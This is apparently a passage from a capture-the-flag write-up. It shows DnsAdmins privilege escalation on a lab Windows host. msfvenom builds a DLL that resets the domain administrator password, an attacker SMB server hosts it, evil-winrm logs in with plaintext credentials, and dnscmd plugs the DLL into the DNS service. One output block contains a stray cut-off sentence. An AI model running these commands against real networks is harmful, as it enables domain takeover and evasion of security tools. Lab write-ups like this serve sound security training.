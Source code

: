 ```bash
$ cd /tmp
$ msfvenom -p windows/x64/exec CMD='net user administrator Qwerty1! /domain' -f dll -o hello.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 307 bytes
Final size of dll file: 8704 bytes
Saved as: hello.dll
```

As transferring this to the box would likely trigger Windows Defender or any other security solution, we can use [impacket-smbserver](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) to start an SMB server and host the DLL remotely.

Note that the DLL was placed in the **/tmp** directory of the attacking machine.

```bash
$ impacket-smbserver smb /tmp                      
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

The dnscmd utility can be used to set the remote DLL path into the Windows Registr
```

Now, we can use `evil-winrm` and the **ryan** credentials to load our malicious DLL remotely.

```bash
$ evil-winrm -i 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'

Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> cmd.exe /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.62\smb\hello.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Next, we need to restart the DNS service in order to load our malicious DLL. Normally, **DnsAdmins** aren't able to restart the DNS service by default, but it is likely that they would be given permissions to do this and on this domain and this is indeed the case.

```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
```